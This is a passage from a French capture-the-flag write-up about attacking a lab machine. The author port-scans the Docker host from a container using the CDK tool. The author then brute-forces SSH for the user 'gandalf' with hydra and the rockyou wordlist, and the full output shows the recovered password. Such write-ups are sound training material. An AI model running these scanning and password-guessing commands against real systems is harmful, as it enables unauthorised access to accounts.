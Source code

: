 Je me suis tourné à nouveau vers [GitHub - cdk-team/CDK: 📦 Make security testing of K8s, Docker, and Containerd easier.](https://github.com/cdk-team/CDK) pour l'exploitation, mais le container ne fonctionne pas en mode privilégié et je ne suis pas root dedans.

C'est toutefois un outil très pratique, car il inclut différents outils qui manquent généralement dans un container, par exemple un scan de port :

```console
www-data@a5610f5f2480:/var/www/html$ ./cdk_linux_amd64 probe 172.17.0.1 1-65535 50 2000
2023/05/09 12:56:05 scanning 172.17.0.1 with user-defined ports, max parallels:50, timeout:2s
open : 172.17.0.1:22
open : 172.17.0.1:80
open : 172.17.0.1:3306
2023/05/09 13:39:50 scanning use time:2624923ms
2023/05/09 13:39:50 ending; @args is ips: 172.17.0.1, max parallels:50, timeout:2s
```

## We need to go the opposite of deeper

Vu qu'aucun des mots de passe qu'on a croisé jusque-là ne fonctionne pour l'un des 7 comptes utilisateurs trouvés, quelle est la prochaine étape ?

Lancer une attaque brute force avec `rockyou` sur les 7 comptes et attendre plus de 8000 heures ?

J'ai préféré chercher une solution sur le web et effectivement il fallait bruteforcer le compte de `gandalf`.

Après un temps bien trop long on finissait par trouver le mot de passe `highschoolmusical`.

```console
$ hydra -l gandalf -P wordlists/rockyou.txt ssh://192.168.56.194
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-09 12:22:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344381 login tries (l:1/p:14344381), ~896524 tries per task
[DATA] attacking ssh://192.168.56.194:22/
[STATUS] 123.00 tries/min, 123 tries in 00:01h, 14344262 to do in 1943:41h, 12 active
[STATUS] 85.33 tries/min, 256 tries in 00:03h, 14344129 to do in 2801:36h, 12 active
[STATUS] 79.43 tries/min, 556 tries in 00:07h, 14343829 to do in 3009:48h, 12 active
[STATUS] 79.73 tries/min, 1196 tries in 00:15h, 14343189 to do in 2998:10h, 12 active
[STATUS] 77.94 tries/min, 2416 tries in 00:31h, 14341969 to do in 3067:04h, 12 active
[STATUS] 77.83 tries/min, 3658 tries in 00:47h, 14340727 to do in 3070:58h, 12 active
[STATUS] 77.40 tries/min, 4876 tries in 01:03h, 14339509 to do in 3087:53h, 12 active
[STATUS] 77.14 tries/min, 6094 tries in 01:19h, 14338291 to do in 3097:56h, 12 active
[22][ssh] host: 192.168.56.194   login: gandalf   password: highschoolmusical
1 of 1 target successfully completed, 1 valid password found
```

On remarquait alors un autre utilisateur :
